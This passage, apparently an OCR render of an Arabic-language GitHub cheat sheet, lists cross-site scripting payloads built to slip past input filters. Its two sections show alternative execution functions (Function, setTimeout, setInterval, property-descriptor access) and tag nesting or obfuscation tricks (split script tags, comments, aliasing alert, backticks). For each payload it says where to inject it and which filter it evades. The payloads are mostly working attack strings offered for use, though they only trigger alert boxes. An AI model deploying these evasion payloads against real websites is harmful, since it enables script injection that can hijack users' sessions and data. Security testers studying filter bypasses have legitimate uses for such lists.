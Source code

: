 #### ج. دوال بديلة
{ #XSS_Obfuscation_payloads / #XSS_with_out_alret }
استخدام دوال JavaScript غير شائعة بدلاً من `alert` أو `eval`.
- **الحقن**: `<script>Function('alert("XSS")')()</script>`
  - **الإدخال**: أدخل في حقل: `<script>Function('alert("XSS")')()</script>`
  - **كيف يعمل**: يستخدم باني `Function` لتنفيذ شيفرة ديناميكية.
  - **متى يُستخدم؟**: عندما تحظر الفلاتر `alert` ولكن تسمح بـ `Function`.
- **الحقن**: `<script>new Function('alert("XSS")')()</script>`
  - **الإدخال**: أدخل في URL: `https://example.com/search?query=<script>new Function('alert("XSS")')()</script>`
  - **كيف يعمل**: صيغة مشابهة لـ `Function`.
  - **متى يُستخدم؟**: لتجاوز فلاتر تحظر الصيغ القياسية.
- **الحقن**: `<script>(window['Function'])('alert("XSS")')()</script>`
  - **الإدخال**: أدخل في نموذج: `<script>(window['Function'])('alert("XSS")')()</script>`
  - **كيف يعمل**: يصل إلى `Function` عبر `window`.
  - **متى يُستخدم؟**: لتجنب فلاتر تحظر `Function` مباشرة.
- **الحقن**: `<script>setTimeout('alert("XSS")')</script>`
  - **الإدخال**: أدخل في تعليق: `<script>setTimeout('alert("XSS")')</script>`
  - **كيف يعمل**: ينفذ الشيفرة بعد تأخير.
  - **متى يُستخدم؟**: لتجنب فلاتر تحظر التنفيذ المباشر.
- **الحقن**: `<script>setInterval('alert("XSS")',1000)</script>`
  - **الإدخال**: أدخل في حقل: `<script>setInterval('alert("XSS")',1000)</script>`
  - **كيف يعمل**: ينفذ الشيفرة بشكل متكرر.
  - **متى يُستخدم؟**: لاختبار التكرار.
- **الحقن**: `<script>Object.getOwnPropertyDescriptor(window,'alert').value('XSS')</script>`
  - **الإدخال**: أدخل في URL: `https://example.com/search?query=<script>Object.getOwnPropertyDescriptor(window,'alert').value('XSS')</script>`
  - **كيف يعمل**: يصل إلى `alert` عبر خصائص الكائن.
  - **متى يُستخدم؟**: لتجاوز فلاتر متقدمة.

#### د. تداخل الوسوم
{ #XSS_Idea_for_script_tag  }
إضافة وسوم أو أحرف مضللة لإرباك الفلاتر.
- **الحقن**: `<scr<script>ipt>alert('XSS')</scr<script>ipt>`
  - **الإدخال**: أدخل في نموذج: `<scr<script>ipt>alert('XSS')</scr<script>ipt>`
  - **كيف يعمل**: يداخل `<script>` لتجاوز فلاتر تحظر الوسم.
  - **متى يُستخدم؟**: عندما تحظر الفلاتر `<script>` ولكن تسمح بالتداخل.
- **الحقن**: `<script>/*تعليق*/alert('XSS')/*تعليق*/</script>`
  - **الإدخال**: أدخل في تعليق: `<script>/*تعليق*/alert('XSS')/*تعليق*/</script>`
  - **كيف يعمل**: يضيف تعليقات لإرباك الفلاتر.
  - **متى يُستخدم؟**: لتجنب فلاتر تحلل النصوص.
- **الحقن**: `<script>alert('XSS')//تعليق</script>`
  - **الإدخال**: أدخل في حقل: `<script>alert('XSS')//تعليق</script>`
  - **كيف يعمل**: يستخدم تعليق متتالي لإخفاء النهاية.
  - **متى يُستخدم؟**: لتجنب فلاتر تحلل النهاية.
- **الحقن**: `<script>a=alert,a('XSS')</script>`
  - **الإدخال**: أدخل في URL: `https://example.com/search?query=<script>a=alert,a('XSS')</script>`
  - **كيف يعمل**: يعين `alert` لمتغير لتقليل الكلمات الحساسة.
  - **متى يُستخدم؟**: لتجنب فلاتر الكلمات.
- **الحقن**: `<script>alert`XSS`</script>`
  - **الإدخال**: أدخل في نموذج: `<script>alert`XSS`</script>`
  - **كيف يعمل**: يستخدم علامات اقتباس خلفية للتشويش.
  - **متى يُستخدم؟**: لتجنب فلاتر تحظر الصيغ القياسية.
